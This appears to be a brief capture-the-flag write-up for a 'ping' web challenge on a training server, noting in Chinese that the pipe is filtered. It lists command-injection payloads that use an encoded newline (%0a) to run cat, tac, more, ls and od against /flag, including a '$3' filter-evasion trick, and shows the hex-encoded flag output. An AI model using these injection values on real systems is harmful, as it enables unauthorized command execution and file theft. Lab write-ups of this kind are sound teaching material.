 # ping

`|` 这个是管道符，会被过滤

`%0a` 是回车符的 ASCII 码

`%0a cat /flag`

`%0a tac /flag`

`%0a more /flag`

`http://train2024.hitctf.cn:26353/?ip=%0a%20ls%20../../../`

```
6c66 6761 347b 6563 3130 3934 6363 3262  
3539 3161 3735 3936 3931 6338 3961 3336  
6532 6361 7d36 000a  
```

```
6c666761347b6563313039346363326235393161373539363931633839613336653263617d36000a
```

```
6c66 6761 347b 6563 3130 3934 6363 3262 3539 3161 3735 3936 3931 6338 3961 3336 6532 6361 7d36 000a 
```

6c66 6761 347b 6563 3130 3934 6363 3262 3539 3161 3735 3936 3931 6338 3961 3336 6532 6361 7d36 000a

``` shell
# hackbar
http://train2024.hitctf.cn:26637/?ip=%0a%20od -x%20../../../fl$3ag 
```

